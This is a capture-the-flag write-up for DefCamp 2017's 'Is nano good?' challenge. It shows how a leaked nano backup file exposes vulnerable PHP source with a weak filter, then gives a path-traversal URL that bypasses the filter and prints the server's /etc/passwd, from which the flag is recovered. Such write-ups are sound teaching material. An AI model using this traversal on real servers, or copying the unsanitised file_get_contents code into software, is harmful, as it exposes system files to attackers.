

## Is nano good?

### Description:
This is our new admin platform interface. Can you test it?

### Author: 
Lucian Nitescu

### Stats: 
2 points / 135 solvers

### Solution:  

The challenge started with this link: [https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login).

At this point you are prompted with this:


At this point you should press ctrl + u to view the page source code and the intended comments.



The comments gives us two hints:
~ "Have you tried the index.php?" => you should try index.php 
~ "edit it with nano" => meaning that it left also a copy of index.php with a tilda at the end (leaking the file content)

Now we go to [view-source:https://junior2.dctf-quals-17.def.camp/index.php~](view-source:https://junior2.dctf-quals-17.def.camp/index.php~) and we get this code: 

```
<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website 
	echo file_get_contents($page); 
}
?>

```

At this point we can perform a path traversal to /etc/passwd and we can try to avoid the filtering!

In other words we go to [https://junior2.dctf-quals-17.def.camp/?page=/etc/../etc/passwd&type=defcamp_rulz](https://junior2.dctf-quals-17.def.camp/?page=/etc/../etc/passwd&type=defcamp_rulz) and we will get the following contents of the /etc/passwd file.

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd: 4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f: c48b33a7972:x:1003:1003::/home/c48b33a7972: c0752d13db4:x:1004:1004::/home/c0752d13db4: 32ff9930a99:x:1005:1005::/home/32ff9930a99: 6c567ea3321:x:1006:1006::/home/6c567ea3321: 13b}:x:1007:1007::/home/13b}:
```

And we extract the flag from: 

```
DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd:
4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f:
c48b33a7972:x:1003:1003::/home/c48b33a7972:
c0752d13db4:x:1004:1004::/home/c0752d13db4:
32ff9930a99:x:1005:1005::/home/32ff9930a99:
6c567ea3321:x:1006:1006::/home/6c567ea3321:
13b}:x:1007:1007::/home/13b}:
```

DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}